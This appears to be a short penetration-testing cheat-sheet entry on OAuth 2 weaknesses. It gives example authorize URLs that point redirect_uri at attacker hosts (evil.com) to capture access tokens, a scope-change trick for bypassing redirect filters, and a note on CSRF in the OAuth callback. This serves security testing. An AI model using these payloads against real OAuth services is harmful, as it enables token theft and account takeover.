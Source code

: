 # OAuth 2

## Grabbing OAuth Token via redirect_uri

Redirect to a controlled domain to get the access token.

```
https://www.example.com/signin/authorize?[...]&redirect_uri=https://localhost.evil.com
```

OAuth implementations should never whitelist entire domains, only a few URLs so that "redirect_uri" can’t be pointed to an Open Redirect

Sometimes you need to change the scope to an invalid one to bypass a filter on redirect_uri:

```
https://www.example.com/admin/oauth/authorize?[...]&scope=a&redirect_uri=https://evil.com
```

## Cross-Site Request Forgery

Applications that do not check for a valid CSRF token in the OAuth callback are vulnerable. This can be exploited by initializing the OAuth flow and intercepting the callback (https://example.com/callback?code=AUTHORIZATION_CODE). This URL can be used in CSRF attacks.

## Burp

Extensions that helps to test oauth flow

- https://github.com/akabe1/OAUTHScan 

## Mindmap

![OAuth2 mindmap](/oauth2_mindmap.jpeg)


